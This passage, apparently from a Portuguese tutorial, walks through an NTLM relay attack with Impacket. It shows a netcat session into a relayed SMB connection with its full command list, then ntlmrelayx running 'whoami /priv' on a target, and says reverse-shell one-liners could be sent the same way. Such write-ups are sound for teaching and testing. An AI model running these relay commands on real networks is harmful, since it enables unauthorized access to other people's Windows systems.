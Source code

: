 Para tal basta abrir uma sessão com _netcat_ para o IP/Porto que a nossa sessão está estabecida.

```terminal

┌──(kali㉿insecure)-[~]
└─$ nc -nv 127.0.0.1 11000
(UNKNOWN) [127.0.0.1] 11000 (?) open
Type help for list of commands
# ?

 open {host,port=445} - opens a SMB connection against the target host/port
 login {domain/username,passwd} - logs into the current SMB connection, no parameters for NULL connection. If no password specified, it'll be prompted
 kerberos_login {domain/username,passwd} - logs into the current SMB connection using Kerberos. If no password specified, it'll be prompted. Use the DNS resolvable domain name
 login_hash {domain/username,lmhash:nthash} - logs into the current SMB connection using the password hashes
 logoff - logs off
 shares - list available shares
 use {sharename} - connect to an specific share
 cd {path} - changes the current directory to {path}
 lcd {path} - changes the current local directory to {path}
 pwd - shows current remote directory
 password - changes the user password, the new password will be prompted for input
 ls {wildcard} - lists all the files in the current directory
 rm {file} - removes the selected file
 mkdir {dirname} - creates the directory under the current path
 rmdir {dirname} - removes the directory under the current path
 put {filename} - uploads the filename into the current path
 get {filename} - downloads the filename from the current path
 mget {mask} - downloads all files from the current directory matching the provided mask
 cat {filename} - reads the filename from the current path
 mount {target,path} - creates a mount point from {path} to {target} (admin required)
 umount {path} - removes the mount point at {path} without deleting the directory (admin required)
 list_snapshots {path} - lists the vss snapshots for the specified path
 info - returns NetrServerInfo main results
 who - returns the sessions currently connected at the target host (admin required)
 close - closes the current SMB Session
 exit - terminates the server process (and this session)

```

É possivel ainda enviar commandos, o exemplo abaixo mostra o _output_ mas na prática até nos possivel enviar _oneliners_ para criação de uma _reverse shell_.

```terminal

└─$ impacket-ntlmrelayx -t 192.168.0.102 -smb2support -c "whoami /priv"
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
```